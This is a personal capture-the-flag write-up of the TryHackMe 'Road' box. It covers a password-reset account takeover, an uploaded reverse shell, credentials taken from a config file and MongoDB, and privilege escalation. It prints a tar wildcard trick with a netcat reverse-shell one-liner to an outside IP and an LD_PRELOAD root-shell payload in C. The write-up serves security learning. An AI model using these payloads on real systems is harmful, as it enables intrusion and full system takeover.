 # Road Helped-Through

Name: Road
Date:  16/4/2023
Difficulty:  Medium
Goals:  
- Follow along with Al while I do the more automatable time hungry Offsec execises 
- Warm up
Learnt:
- Try Harder
- Scrutinise integrity of password reset source code
- READ
Beyond Root:
- H4ddixB4dg3r Programming for a hour!

<iframe width="560" height="315" src="https://www.youtube.com/embed/yYw3ysOdNt8" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

[Alh4zr3d - VOD](https://www.youtube.com/watch?v=yYw3ysOdNt8) I followed allow and paused serval times to distance myself from these Helped-Throughs as I inch closer to going for more OSCP stuff.

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

Nuclei finds [[phpmyadmin-panel-http___10.10.75.48_phpMyAdmin_]]

- Registered a user: `admin@admin.com : admin`
- Found the `admin@sky.thm`

I found:
![](loggedinadminsemail.png)

Al points out No CSRF token
![](alfindcsrftoken.png)

Testing 
![](seewhathappens.png)

Results in:
![](none.png)

Password resets are not normally implemented without requiring previous password.
![](resetuser.png)

Oh oh
![](letsseeifitworked.png)

Now we are Admin
![](weareadminskythm.png)


Now we can upload a picture for user profile

Alh4zr3d points out XXS
![1080](sadliveoverflow.png)
It is not displaying everything as it is Reflected-based XSS

- It not stored as it is not persistent
- It is reflected back, but non persistent 

- Is user input is reflected back onto the page? 
- Is http-only flag set to prevent user cookie compromise ?

[Types of XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting) either client-side or server-side
 - DOM XSS 
	 - Where the entire tainted data flow from source to sink takes place in the browser
	 - Is subset of Client XSS
- Reflected XSS
	- Non-Persistent
- Stored XSS
	- Persistent

![](alONEtoolsZero.png)


## Exploit and www-data Foothold

Simply just uploaded pentest monkey reverse shell. I was hoping I could crack open some methodological rigor for myself.
![](rshellachieved.png)

Go mongodb
![](webdeveloperowwnedfiles.png)
Al points out this:
![](iwentforconfbutalfinditfirst.png)

`ThisIsSecurePassword!`

I paused here to practice some SQL
![](sequalofwoow.png)


`webdeveloper : BahamasChapp123!@#`

```sql
mongo "mongodb://localhost:27017"
show dbs;
use backup;
show tables;
db.user.find();
```

![](webdeveloperspassword.png)

## PrivEsc

Now as the webdeveloper user:
![](clapping.png)
Initial sudo privilege:
![](sudosky_back_up_utility.png)

I ran this is binary and paused the video as I think this is similar to [[Reddish-Helped-Through]] - it is backing up the webserver with a wildcard:
![](backupthewebshell.png)
[Hack Tricks - wildcards spare trikcs](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks)

It uses `tar`
![](tarwildcards.png)

So we can just get root from something like
```bash
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.43.145 6969 >/tmp/f" > shell.sh
```

![](didnotwork.png)

Al points out how sudo is `env_keep+=LD_PRELOAD`, we have `gcc` - from [Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path)

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

![](whichworked.png)

- Try Harder.

## Beyond Root

H4ddixB4dg3r Programming for a hour!